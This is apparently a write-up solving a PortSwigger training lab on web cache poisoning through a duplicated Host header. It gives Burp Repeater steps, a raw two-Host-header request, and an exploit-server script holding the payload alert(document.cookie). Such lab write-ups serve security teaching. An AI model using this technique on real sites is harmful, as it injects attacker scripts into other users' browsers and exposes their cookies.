

# Web cache poisoning via ambiguous requests

## Description

[This lab](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-web-cache-poisoning-via-ambiguous-requests) is vulnerable to web cache poisoning due to discrepancies in how the cache and the back-end application handle ambiguous requests. An unsuspecting user regularly visits the site's home page.

## Reproduction

1. Send the `GET /` request that received a `200` response to Burp Repeater and study the lab's behaviour. Observe that the website validates the `Host` header. After tampering with it, you are unable to still access the home page.
2. In the original response, notice the verbose caching headers, which tell you when you get a cache hit and how old the cached response is. Add an arbitrary query parameter to your requests to serve as a cache buster, for example, `GET /?cb=123`. You can simply change this parameter each time you want a fresh response from the back-end server.
3. When adding a second `Host` header with an arbitrary value, this appears to be ignored when validating and routing the request. Crucially, the arbitrary value of the second `Host` header is reflected in an absolute URL used to import a script from `/resources/js/tracking.js`.
4. Remove the second `Host` header and send the request again using the same cache buster. Notice that you still receive the same cached response containing your injected value.
5. Go to the exploit server and create a file at ``/resources/js/tracking.js`` containing the payload `alert(document.cookie)`. Store the exploit and copy the domain name for your exploit server.
6. Back in Burp Repeater, add a second Host header containing your exploit server domain name. The request now looks something like this:

```text
GET /?cb=123 HTTP/1.1
Host: lab-id.web-security-academy.net
Host: your exploit-server-id.web-security-academy.net
```

7. Send the request a couple of times until you get a cache hit with your exploit server URL reflected in the response. To simulate the victim, request the page in your browser using the same cache buster in the URL. Make sure that the ``alert()`` fires.
8. In Burp Repeater, remove any cache busters and keep replaying the request until you have re-poisoned the cache. The lab is solved when the victim visits the home page.

## PoC

[](https://kraut.zone/w/jNJkgGzMkpMt1Nk5SCAdPA)

## Exploitability

An attacker will need to poison the cache so the home page executes `alert(document.cookie)` in the victim's browser. 
